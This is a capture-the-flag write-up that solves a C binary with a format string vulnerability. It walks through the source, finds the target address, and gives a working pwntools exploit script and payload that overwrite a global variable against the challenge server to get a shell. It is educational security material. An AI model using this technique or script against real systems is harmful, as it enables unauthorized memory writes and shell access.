



# Mission Control

## Description

There have been many hackers trying to compromise our mission control panel lately. We have added a few verification checks!

`nc 20.198.209.142 55021`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**





## Solution

### Source Code Analysis

To get the flag, users must overwrite the `secret_code` global variable.

```c
#define ADMIN_CODE 200

int secret_code = 0;

...

int main(int argc, char **argv)
{
	if (secret_code == ADMIN_CODE)
	{
		give_shell();
	}
	else
	{
		printf("Sorry, this area is currently disabled.\n");
	}

	return 0;
}
```

Now let's look at the rest of the code. User input is read into `buf`, and `buf` is concatenated to `to_print` before `printf(to_print)` is called.

```c
...

char buf[128];
memset(buf, 0, sizeof(buf));
fgets(buf, 128, stdin);

char to_print[256];
memset(to_print, 0, sizeof(to_print));

strcpy(to_print, "You said: ");
strcat(to_print, buf);

printf(to_print);
printf("Code: %d\n", secret_code);

...
```

This is a classic format string vulnerability. User input is directly passed into the `printf` format string, allowing us to write to arbitrary memory addresses.

An additional restriction is that the first 16 characters of the input must be "I am not a robot".

```c
if (strncmp(buf, "I am not a robot", 16) == 0)
{	
	printf("Glad to hear that!\n");
}
else
{
	printf("Stop hacking us!\n");
	return 0;
}
```

### Exploitation

Using `objdump`, we can find the memory address of `secret_code`.

```text
$ objdump -t mission_control | grep secret_code
080dffbc g     O .bss    00000004 secret_code
```

We need to send 4 bytes in order to specify the address which we want to overwrite. Let this be `AAAA` for now. By sending `I am not a robotAAAA%x.%x.%x ...`, we can leak the stack values \(every `%x` represents 4 bytes\).



Notice that `4141746f` appears at the 10th index and `78254141` at the 11th index. We need the full four bytes to be at the same index, so let's add two extra bytes before the `AAAA`.



We have added two extra bytes `BB` and used Direct Parameter Access \(DPA\) to specify we want the 11th index. The payload is `I am not a robotBBAAAA%11$p`. As we can see, the 11th index is now our `AAAA` string, i.e.`0x41414141`. Perfect!

The final payload is `I am not a robotBB\xbc\xff\x0d\x08%168x%11$n`.

* `\xbc\xff\x0d\x08` is the memory address of `secret_code` \(0x080dffbc\) in little-endian.
* `%168x%11$n` writes 168 + \[bytes already wrote\] to the address on the 11th index.

The exploitation process is outlined by this script:

```python
from pwn import *

# Bruteforce the index of the buffer

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send("I am not a robotBBAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\r\n")

print(conn.recv())

# Check the index of the buffer

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send(b"I am not a robotBBAAAA%11$p\r\n")
print(conn.recv())

# Overwrite the secret_code address

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send(b"I am not a robotBB\xbc\xff\x0d\x08%168x%11$n\r\n") # 080dffbc
print(conn.recv())
conn.interactive()
```

Once we overwrite the secret code, we are given a shell. 



The flag is `STC{1_l0v3_f0rm4t_st1ngs_0ab7a4af7bb1343810ccde8244031f2f}`.

